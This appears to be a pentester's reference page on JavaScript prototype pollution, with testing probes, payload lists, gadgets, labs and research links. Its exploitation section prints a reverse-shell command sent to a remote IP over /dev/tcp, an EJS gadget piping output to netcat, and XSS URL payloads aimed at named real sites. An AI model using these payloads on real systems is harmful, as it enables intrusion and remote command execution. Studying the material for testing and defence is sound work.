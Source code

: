 # Prototype Pollution

> Prototype pollution is a type of vulnerability that occurs in JavaScript when properties of Object.prototype are modified. This is particularly risky because JavaScript objects are dynamic and we can add properties to them at any time. Also, almost all objects in JavaScript inherit from Object.prototype, making it a potential attack vector.


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Examples](#examples)
    * [Manual Testing](#manual-testing)
    * [Prototype Pollution via JSON Input](#prototype-pollution-via-json-input)
    * [Prototype Pollution in URL](#prototype-pollution-in-url)
    * [Prototype Pollution Payloads](#prototype-pollution-payloads)
    * [Prototype Pollution Gadgets](#prototype-pollution-gadgets)
* [Labs](#labs)
* [References](#references)


## Tools

* [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - Help you find gadget for prototype pollution exploitation
* [yuske/silent-spring](https://github.com/yuske/silent-spring) - Prototype Pollution Leads to Remote Code Execution in Node.js
* [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) - Server-Side Prototype Pollution gadgets in Node.js core code and 3rd party NPM packages
* [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution) - Prototype Pollution and useful Script Gadgets
* [portswigger/server-side-prototype-pollution](https://github.com/portswigger/server-side-prototype-pollution) - Burp Suite Extension detectiong Prototype Pollution vulnerabilities
* [msrkp/PPScan](https://github.com/msrkp/PPScan) - Client Side Prototype Pollution Scanner 


## Methodology

In JavaScript, prototypes are what allow objects to inherit features from other objects. If an attacker is able to add or modify properties of `Object.prototype`, they can essentially affect all objects that inherit from that prototype, potentially leading to various kinds of security risks.

```js
var myDog = new Dog();
```

```js
// Points to the function "Dog"
myDog.constructor;
```

```js
// Points to the class definition of "Dog"
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];
```


### Examples

* Imagine that an application uses an object to maintain configuration settings, like this:
    ```js
    let config = {
        isAdmin: false
    };
    ```
* An attacker might be able to add an `isAdmin` property to `Object.prototype`, like this:
    ```js
    Object.prototype.isAdmin = true;
    ```


### Manual Testing

* ExpressJS: `{ "__proto__":{"parameterLimit":1}}` + 2 parameters in GET request, at least 1 must be reflected in the response.
* ExpressJS: `{ "__proto__":{"ignoreQueryPrefix":true}}` + `??foo=bar`
* ExpressJS: `{ "__proto__":{"allowDots":true}}` + `?foo.bar=baz`
* Change the padding of a JSON response: `{ "__proto__":{"json spaces":" "}}` + `{"foo":"bar"}`, the server should return `{"foo": "bar"}`
* Modify CORS header responses: `{ "__proto__":{"exposedHeaders":["foo"]}}`, the server should return the header `Access-Control-Expose-Headers`.
* Change the status code: `{ "__proto__":{"status":510}}`


### Prototype Pollution via JSON Input

You can access the prototype of any object via the magic property `__proto__`. 
The `JSON.parse()` function in JavaScript is used to parse a JSON string and convert it into a JavaScript object. Typically it is a sink function where prototype pollution can happen.


```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```

Asynchronous payload for NodeJS.

```js
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=payload\"\".oastify\"\".com"
  }
}
```

Polluting the prototype via the `constructor` property instead.

```js
{
    "constructor": {
        "prototype": {
            "foo": "bar",
            "json spaces": 10
        }
    }
}
```


### Prototype Pollution in URL

Example of Prototype Pollution payloads found in the wild.

```ps1
https://victim.com/#a=b&__proto__[admin]=1
https://example.com/#__proto__[xxx]=alert(1)
http://server/servicedesk/customer/user/signup?__proto__.preventDefault.__proto__.handleObj.__proto__.delegateTarget=%3Cimg/src/onerror=alert(1)%3E
https://www.apple.com/shop/buy-watch/apple-watch?__proto__[src]=image&__proto__[onerror]=alert(1)
https://www.apple.com/shop/buy-watch/apple-watch?a[constructor][prototype]=image&a[constructor][prototype][onerror]=alert(1)
```


### Prototype Pollution Exploitation

Depending if the prototype pollution is executed client (CSPP) or server side (SSPP), the impact will vary.

* Remote Command Execution: [RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
    ```js
    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
    .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
    ```
* Remote Command Execution: [RCE using EJS gadgets](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)
    ```js
    {
        "__proto__": {
            "client": 1,
            "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
        }
    }
    ```
* Reflected XSS: [Reflected XSS on www.hackerone.com via Wistia embed code - #986386](https://hackerone.com/reports/986386)
* Client-side bypass: [Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
* Denial of Service


### Prototype Pollution Payloads

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
{"__proto__.name":"test"}
x[__proto__][abaeead] = abaeead
x.__proto__.edcbcab = edcbcab
__proto__[eedffcb] = eedffcb
__proto__.baaebfc = baaebfc
?__proto__[test]=test
```


### Prototype Pollution Gadgets

A "gadget" in the context of vulnerabilities typically refers to a piece of code or functionality that can be exploited or leveraged during an attack. When we talk about a "prototype pollution gadget," we're referring to a specific code path, function, or feature of an application that is susceptible to or can be exploited through a prototype pollution attack.

Either create your own gadget using part of the source with [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder), or try to use already discovered gadgets [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) / [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution).


## Labs

* [YesWeHack Dojo - Prototype Pollution](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
* [PortSwigger - Prototype Pollution](https://portswigger.net/web-security/all-labs#prototype-pollution)


## References

- [A Pentester's Guide to Prototype Pollution Attacks - Harsh Bothra - January 2, 2023](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
- [A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild - s1r1us - September 28, 2021](https://blog.s1r1us.ninja/research/PP)
- [Detecting Server-Side Prototype Pollution - Daniel Thatcher - February 15, 2023](https://www.intruder.io/research/server-side-prototype-pollution)
- [Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609) - Michał Bentkowski - October 30, 2019](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
- [Keynote | Server Side Prototype Pollution: Blackbox Detection Without The DoS - Gareth Heyes - March 27, 2023](https://youtu.be/LD-KcuKM_0M)
- [NodeJS - \_\_proto\_\_ & prototype Pollution - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
- [Prototype Pollution - PortSwigger - November 10, 2022](https://portswigger.net/web-security/prototype-pollution)
- [Prototype pollution - Snyk - August 19, 2023](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
- [Prototype pollution and bypassing client-side HTML sanitizers - Michał Bentkowski - August 18, 2020](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
- [Prototype Pollution and Where to Find Them - BitK & SakiiR - August 14, 2023](https://youtu.be/mwpH9DF_RDA)
- [Prototype Pollution Attacks in NodeJS - Olivier Arteau - May 16, 2018](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf)
- [Prototype Pollution Attacks in NodeJS applications - Olivier Arteau - October 3, 2018](https://youtu.be/LUsiFV3dsK8)
- [Prototype Pollution Leads to RCE: Gadgets Everywhere - Mikhail Shcherbakov - September 29, 2023](https://youtu.be/v5dq80S1WF4)
- [Server side prototype pollution, how to detect and exploit - BitK - February 18, 2023](http://web.archive.org/web/20230218081534/https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
- [Server-side prototype pollution: Black-box detection without the DoS - Gareth Heyes - February 15, 2023](https://portswigger.net/research/server-side-prototype-pollution)